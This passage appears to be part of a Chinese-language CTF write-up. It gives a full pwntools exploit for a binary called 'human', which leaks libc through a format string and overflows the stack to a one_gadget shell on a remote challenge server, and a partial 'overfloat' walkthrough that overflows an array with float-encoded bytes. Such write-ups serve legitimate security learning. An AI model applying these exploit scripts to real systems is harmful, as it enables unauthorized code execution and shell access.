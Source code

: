 下面是详细脚本：

```

from pwn import *
 
context.log_level = 'debug'
 
p = process('./human')
elf = ELF('./human')
p = remote("114.116.54.89",10005)
payload = ".%11$p."
pause()
p.sendline(payload)
p.recvuntil(".")
leak = int(p.recvuntil(".",drop = True),16)
libc_base = leak - 0x20830
log.success('leak : 0x%x'%leak)
log.success('libc_base : 0x%x'%libc_base)
one_gadget = libc_base + 0x45216
payload = "\xe9\xb8\xbd\xe5\xad\x90" + "\xe7\x9c\x9f\xe9\xa6\x99"
payload = payload.ljust(0x20,"A") 
payload += p64(0) + p64(one_gadget)
p.sendline(payload)
 
p.interactive()
```

### DigAips W8

挂起题目：socat tcp-l:端口号,fork exec:程序位置
这里DigAips的题目都是网上收集的题目

### overfloat

overfloat我们可以猜测它与浮点数有关。如果我们仔细观察，我们可以看到0x3f800000代表浮动1.0

```
In [5]: binascii.hexlify(struct.pack('f', 1.0))
Out[5]: '0000803f'
```

我们可以将4字节数组转换为浮点数，然后溢出数组

```
def byte_to_float(data):
    if len(data) != 4:
        log.error("Length of data should be 4")
        sys.exit(0)
    return str(struct.unpack('f', bytes(data))[0])
```

并溢出数组

```
for i in range(0xe):
    tosend = byte_to_float("A"*4)
    p.sendline(tosend)

# trigger return to main
# BOF at end of main -> ret
p.sendline("done")

p.interactive()
```
